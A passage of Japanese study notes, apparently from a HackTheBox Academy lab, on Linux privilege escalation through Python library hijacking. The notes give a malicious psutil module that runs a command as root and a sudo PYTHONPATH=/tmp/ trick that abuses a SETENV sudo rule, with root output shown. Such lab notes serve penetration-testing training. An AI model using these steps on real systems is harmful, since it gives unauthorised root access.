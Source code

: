 この誤った構成を悪用して、独自の悪意のあるvirtual_memory()関数を含む独自のpsutilモジュールを/usr/lib/python3.8ディレクトリに作成
```python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

実行
```shell-session
 sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
```

### PYTHONPATH環境変数
- PYTHONPATH は、Pythonがモジュール（ライブラリ）を探す場所を教える道案内みたいなもの。
- 普通、Pythonは標準のフォルダだけを探すけど、PYTHONPATHを設定すると、自分の指定したフォルダも探してくれる。
- もしユーザーがこのPYTHONPATHをいじれるなら、Pythonに自分が作った悪いモジュールを読み込ませることもできるから、権限昇格のチャンスになる。

- sudoで /usr/bin/python3 を実行できるようになっている。
	- さらに、SETENVフラグが設定されている
	- → sudoを使うときでも環境変数（例えばPYTHONPATH）を自由に指定できる
- SETENVフラグがあると、環境変数を無効化せずそのまま使える。
	- sudo実行時でも、好きな環境変数をそのまま使える
つまり、**自作モジュールをroot権限で勝手に読み込ませて、権限昇格できる**!!
```shell-session
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

以前のPythonスクリプトを/usr/bin/python3を再度呼び出してmem_stats.pyを実行する
PYTHONPATH変数に/tmpディレクトリが含まれるように指定して、Pythonがそのディレクトリを強制的に検索してインポートするpsutilモジュールを探させる
```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```




